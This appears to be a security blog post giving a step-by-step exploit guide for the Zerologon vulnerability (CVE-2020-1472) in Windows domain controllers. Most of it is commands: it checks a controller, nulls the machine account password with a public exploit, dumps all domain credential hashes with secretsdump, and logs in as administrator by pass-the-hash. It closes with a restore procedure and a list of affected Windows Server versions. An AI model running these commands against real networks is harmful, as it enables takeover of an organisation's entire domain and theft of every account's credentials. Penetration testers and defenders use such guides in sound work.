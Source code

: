 ```yaml
---
title: "zerologon (CVE-2020-1472)"
date: 2023-02-18
draft: false
toc: true
tags:
  - windows
  - active directory
---
```


## what/why the vulnerability

Why write about a vulnerability that came out in 2020? It appears that zerologon is still prevelant in many on-prem AD configurations and I came across more than one last year so I wanted to document a quick exploit guide to abuse the vulnerability. 


More technical details about the zerologon can be found here:                 
https://www.secura.com/uploads/whitepapers/Zerologon.pdf

**tl;dr get Domain Admin in less than 5 mins**

## exploit

Download the exploit and restore code from:

https://github.com/dirkjanm/CVE-2020-1472

Download the checker code from:

https://github.com/SecuraBV/CVE-2020-1472/blob/master/zerologon_tester.py


Check if the domain controller is vulnerable to Zerologon using zerologon_tester.py:

```bash
python3 zerologon_tester.py <NETBIOS COMPUTERNAME> <IP>
```

Reset the computer password to 0 or null using the cve-2020-1472-exploit.py python script:

```bash
python3 cve-2020-1472-exploit.py <NETBIOS COMPUTER_NAME> <IP>
```

Once the password is reset, now dump domain credentials using secretsdump from impacket from the context of the computer account:

```bash
python3 impacket/examples/secretsdump.py -just-dc DOMAIN_NAME/COMPUTER_NAME\$@10.10.10.10 -no-pass
```

Using the local administrator hash, log in to the domain controller using evil-winrm:

```bash
evil-winrm -i 10.10.10.10 -u administrator -h LM:NT
```

## restoring the domain controller

**The critical part of this attack is restoring the domain controller with the old password. If not done properly this can have very bad consequences.**

To do this, we have to dump credentials from the Domain Controller from the context of the Domain Admin.

We can do this using secretsdump:

```bash
python3 impacket/examples/secretsdump.py administrator@10.10.10.10 -hashes LM:NT
```

Copy the `plain_password_hex` value to use it to restore the credentials.

```txt
DOMAIN\MACHINENAME$:plain_password_hex:863414566959bfbf0faf7a86597f8e130296bef
6ea842b27d987a3d96a3d313537d9b9f9f3e70439a54fdad228b6e8a6f87fb6b7a10e164cd6c56
1cf1c867e6107ded7fa3679cc9ec6594c96f0d8db9f41aeadeaf0780be2f5f32779f9edf4cfc2f
34d62e210e67789531e9144fe02b1c7a972564f48d8cf59b4ab4cf7434fccfa3fc5bd4f7078d0b
ff527e1982653a385e277bb5edab8795d8f36bfa6dd828bfcbc8b429aa999c2f83dc470ddfd6ad
0d0bde75de3c8cc4edf8f63bb711cca52d9724f97a08acc499d6c6f14fe13aa49040a85a95c48a
9d2725c43b711b786c4a6115f08cb21cb21e00a18d0b43494e5
```

Use this value with the restorepassword script to restrore the Domain Controller:

```bash
python3 restorepassword.py DOMAIN_NAME/COMPUTER_NAME@COMPUTER_NAME -target-ip 10.10.10.10 -hexpass <value of plain password hex>
```

To check if the password is restored successfully, try to dump credentials from the context the computer account using secretsdump again and impacket should throw the following error:

```bash
python3 impacket/examples/secretsdump.py -just-dc DOMAIN_NAME/COMPUTER_NAME\$@10.10.10.10 -no-pass

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
[*] Cleaning up...
```

## affected versions

-   Windows Server 2008 R2 for x64-based Systems Service Pack 1
-   Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
-   Windows Server 2012
-   Windows Server 2012 (Server Core installation)
-   Windows Server 2012 R2
-   Windows Server 2012 R2 (Server Core installation)
-   Windows Server 2016
-   Windows Server 2016 (Server Core installation)
-   Windows Server 2019
-   Windows Server 2019 (Server Core installation)
-   Windows Server, version 1903 (Server Core installation)
-   Windows Server, version 1909 (Server Core installation)
-   Windows Server, version 2004 (Server Core installation)

**hack responsibly!**
